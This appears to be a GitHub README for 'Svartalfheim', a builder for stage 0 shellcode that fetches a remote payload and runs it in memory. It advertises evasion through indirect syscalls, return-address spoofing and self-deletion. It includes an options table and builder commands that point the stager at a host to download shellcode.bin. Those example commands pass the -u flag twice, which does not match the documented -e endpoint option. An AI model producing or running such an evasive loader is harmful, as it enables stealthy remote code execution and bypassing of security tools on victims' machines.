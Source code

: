 # Svartalfheim

Stage 0 Shellcode to Download a Remote Payload and Execute it in Memory

The Nt API calls ```NtAllocateVirtualMemory``` and ```NtProtectVirtualMemory``` are made using indirect syscalls.

LoadLibraryA and WinHTTP calls are performed with return address spoofing.

When the shellcode is executed in a spoofed thread, the stage 0 self-deletes from memory.

# Usage

<table>
  <thead>
    <tr>
      <th>Option</th>
      <th>Description</th>
      <th>Required</th>
      <th>Default Value</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-e</td>
      <td>Http endpoint</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-u</td>
      <td>Http uri</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-p</td>
      <td>Http port</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-a</td>
      <td>User agent</td>
      <td>No</td>
      <td>Mozilla/5.0 (Windows NT 10.0; Win64; x64)</td>
    </tr>
    <tr>
      <td>-s</td>
      <td>Use TLS</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
     <tr>
      <td>-v</td>
      <td>View shellcode at C format</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
  </tbody>
</table>

Example :
- ```python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 80```
- ```python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 443 -s```
- ```python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 8080 -v```

# Credit

- https://github.com/kyleavery/AceLdr
- https://github.com/realoriginal/titanldr-ng
- https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html
- https://github.com/trickster0/TartarusGate
